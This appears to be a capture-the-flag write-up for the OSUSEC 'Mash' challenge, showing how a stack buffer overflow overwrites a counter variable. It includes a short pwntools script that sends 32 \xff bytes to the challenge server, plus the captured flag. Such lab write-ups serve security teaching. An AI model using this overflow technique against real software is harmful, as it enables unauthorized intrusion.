 ```yaml
---
title: "OSUSEC CTF League 2020/2021 - Mash Writeup"
date: 2020-10-08
draft: false
description: ""
tags: ["ctf"]
---
```

## Writeup
Lets just run that binary
```HOW FAST CAN YOU PRESS ENTER???
PRESS ENTER TO COUNT UP, FLAG WHEN CURRENT COUNT == 0xffffffffffffffff
CURRENT COUNT: 0000000000000000
```

hmm, looks like we would have to press that enter button about 18446744073709551615 times.  Doesnt seem that doable, so lets try another approach.

Typing a bunch of `A`s we get:
```HOW FAST CAN YOU PRESS ENTER???
PRESS ENTER TO COUNT UP, FLAG WHEN CURRENT COUNT == 0xffffffffffffffff
CURRENT COUNT: 0000000000000000
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
PRESS ENTER TO COUNT UP, FLAG WHEN CURRENT COUNT == 0xffffffffff000a41
CURRENT COUNT: 0x4141414141414141
```

Interesting, looks like we can override the buffer here and have control over the counter.  So I filled the buffer and overwrote the variable on the stack with `\xff * 32` .
```python
from pwn import *

io = remote('ctf.ropcity.com', 31337)
#io = process("./mash")

padding = "\xff"*32
io.sendline(padding)

io.interactive()
```
And running the script we get the flag!
```
HOW FAST CAN YOU PRESS ENTER???
PRESS ENTER TO COUNT UP, FLAG WHEN CURRENT COUNT == 0xffffffffffffffff
CURRENT COUNT: 0000000000000000
osu{n3xt_1evel_butt0N_maSh1ng}
```
